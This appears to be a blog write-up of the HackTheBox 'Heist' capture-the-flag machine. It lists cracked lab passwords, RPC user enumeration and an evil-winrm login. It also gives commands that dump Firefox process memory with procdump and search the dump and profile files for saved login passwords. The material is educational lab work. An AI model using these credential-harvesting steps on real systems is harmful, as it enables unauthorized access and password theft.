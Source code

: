 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-08-17-heist-hackthebox
tags:
- firefox
- forensics
- hackthebox
- procdump
- rpc
- windows
title: Heist @ HackTheBox
---
```


Heist is an "easy" machine on HackTheBox, involving some enumeration (especially rpc) and some forensics (dumping firefox memory).

## User Flag

Open Ports:

```
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-
5985/tcp open  wsman
```

On 80/443 is a website where we can click "login as guest", gather some potential usernames and download an attachment, a configuration file that contains a few secrets:

```
# usernames
hazard
rout3r
admin
# secrets & decrypted/decoded version
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 : stealth1agent
0242114B0E143F015F5D1E161713 : $uperP@ssword
02375012182C1A1D751618034F36415408 : Q4)sJu\Y8qz*A3?d
```

We used this [website](http://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html) to decrypt the config passwords because they are not really sensitive and use john for the crypt passsword.

We can use `hazard:stealth1agent` to connect to msrpc and enumerate the other local users on the box:

```
rpcclient -U "hazard" heist.htb
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1009
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1012
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
```

We can now log into the box after some trial and error as "chase:Q4)sJu\\Y8qz\*A3?d" via the [evilwinrm](https://github.com/Hackplayers/evil-winrm) shell.

```
evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

The user flag is on the desktop of chase.

## Root Flag

One way to root the box is to recognize that firefox is running and then crash it. The admin password will now be in some recovery file in the profile folder:

```
# Go to AppData\Local\Mozilla\Firefox
Get-ChildItem -recurse | Get-Content | Select-String -pattern "login_password" 2>$null
```

I did not test this myself as I did not find a way to crash it – if you know how please tell me :)

Another way (the one I actually used) is to dump the process with [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) and then grep through the resulting memory dump:

```
upload procdump.exe
procdump.exe -accepteula -ma <pid>
Select-String -Path *.dmp -Pattern 'login_password' | out-host -paging
```

Either way we get the admin password , use it to connect via winrm and get the root flag.